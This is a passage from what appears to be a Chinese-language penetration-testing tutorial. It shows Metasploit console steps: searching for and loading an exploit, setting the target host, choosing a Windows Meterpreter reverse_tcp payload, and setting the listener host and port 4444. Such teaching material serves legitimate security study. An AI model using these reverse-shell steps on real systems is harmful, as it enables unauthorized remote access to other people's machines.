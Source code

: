 ```
        search exploit_name
```

以下屏幕截图显示了前面命令的输出：

![](img/f4b5869b-e3cb-40ff-bf45-f6c6b6def95e.png)

3.  要使用漏洞攻击，请键入以下内容：

```
        use exploits/path/to/exploit  
```

以下屏幕截图显示了前面命令的输出：

![](img/a470cc8f-a78a-45b8-a55c-673832a22eef.png)

4.  接下来，我们通过键入以下内容查看选项：

```
        show options  
```

5.  在这里，我们需要为反向连接设置负载、目标 IP、本地主机和端口。
6.  我们使用以下方法设定目标：

```
        set RHOST x.x.x.x  
```

7.  我们使用以下方法设置有效负载：

```
 set payload windows/meterpreter/reverse_tcp  
```

8.  接下来，我们设置需要连接的`lhost`和`lport`：

```
 set lhost x.x.x.x
 set lport 4444
```
